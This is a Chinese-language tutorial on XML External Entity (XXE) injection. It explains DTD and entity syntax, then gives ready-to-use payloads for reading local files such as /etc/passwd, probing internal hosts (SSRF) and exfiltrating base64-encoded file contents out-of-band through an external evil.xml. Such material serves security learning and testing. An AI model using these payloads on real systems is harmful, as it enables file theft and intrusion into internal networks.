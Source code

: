 ## **0x01:知识准备**

```
XXE漏洞全称XML External Entity Injection即xml外部实体注入漏洞，XXE漏洞发生在应用程序解析XML输入时，
没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等危害。
xxe漏洞触发的点往往是可以上传xml文件的位置，没有对上传的xml文件进行过滤，导致可上传恶意xml文件。
由于xxe漏洞与DTD文档相关，因此重点介绍DTD的概念。
```

### DTD

文档类型定义（DTD）可定义合法的XML文档构建模块，它使用一系列合法的元素来定义文档的结构。DTD 可被成行地声明于XML文档中（内部引用），也可作为一个外部引用。  
内部声明DTD:

```
<!DOCTYPE 根元素 [元素声明]>
```

引用外部DTD:

```
<!DOCTYPE 根元素 SYSTEM "文件名">
```

DTD文档中有很多重要的关键字如下：

* DOCTYPE（DTD的声明）
* ENTITY（实体的声明）
* SYSTEM、PUBLIC（外部资源申请）

### 实体

实体可以理解为变量，其必须在DTD中定义申明，可以在文档中的其他位置引用该变量的值。  
实体按类型主要分为以下四种：

* 内置实体 \(Built-in entities\)
* 字符实体 \(Character entities\)
* 通用实体 \(General entities\)
* 参数实体 \(Parameter entities\)

实体根据引用方式，还可分为内部实体与外部实体，看看这些实体的申明方式。  
完整的实体类别可参考[DTD - Entities](https://www.tutorialspoint.com/dtd/dtd_entities.htm)

####  实体类别介绍

参数实体用%实体名称申明，引用时也用%实体名称;其余实体直接用实体名称申明，引用时用&实体名称。  
参数实体只能在DTD中申明，DTD中引用；其余实体只能在DTD中申明，可在xml文档中引用。

**内部实体：**

```
<!ENTITY 实体名称 "实体的值">
```

**外部实体:**

```
<!ENTITY 实体名称 SYSTEM "URI">
```

**参数实体：**

```
<!ENTITY % 实体名称 "实体的值">
或者
<!ENTITY % 实体名称 SYSTEM "URI">
```

实例演示：除参数实体外实体+内部实体

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
    <!ENTITY name "nMask">]>
<foo>
        <value>&name;</value> 
</foo>
```

实例演示：参数实体+外部实体

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
    <!ENTITY % name SYSTEM "file:///etc/passwd">
    %name;
]>
```

注意：%name（参数实体）是在DTD中被引用的，而&name（其余实体）是在xml文档中被引用的。

由于xxe漏洞主要是利用了DTD引用外部实体导致的漏洞，那么重点看下能引用哪些类型的外部实体。

####  外部实体

外部实体即在DTD中使用



XML实体分为四种：字符实体，命名实体，外部实体，参数实体

**1、命名实体写法：**

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "file:///c://test/1.txt" >]>        
<value>&xxe;</value>

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "http://otherhost/xxxx.php" >]>        
<value>&xxe;</value>
```

可以用做xxe+ssrf，用于内网扫描  
**2、命名实体+外部实体写法：**

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE root [
<!ENTITY dtd SYSTEM "http://localhost:88/evil.xml">
]> 
<value>&dtd;</value>
```

这种命名实体调用外部实体，发现evil.xml中不能定义实体，否则解析不了，感觉命名实体好鸡肋，参数实体就好用很多  
**3、第一种命名实体+外部实体+参数实体写法：**

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE data [
<!ENTITY % file SYSTEM "file:///c://test/1.txt">
<!ENTITY % dtd SYSTEM "http://localhost:88/evil.xml"> 
%dtd; %all; 
]> 
<value>&send;</value>
```

其中evil.xml文件内容为

```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost:88%file;'>">
```

调用过程为：参数实体dtd调用外部实体evil.xml，然后又调用参数实体all，接着调用命名实体send

**第二种命名实体+外部实体+参数实体写法：**

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=c:/test/1.txt">
<!ENTITY % dtd SYSTEM "http://localhost:88/evil.xml">
%dtd;
%send;
]>
<root></root>
```

其中evil.xml文件内容为：

```
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://localhost:88/?content=%file;'>"> %payload;
```

调用过程和第一种方法类似

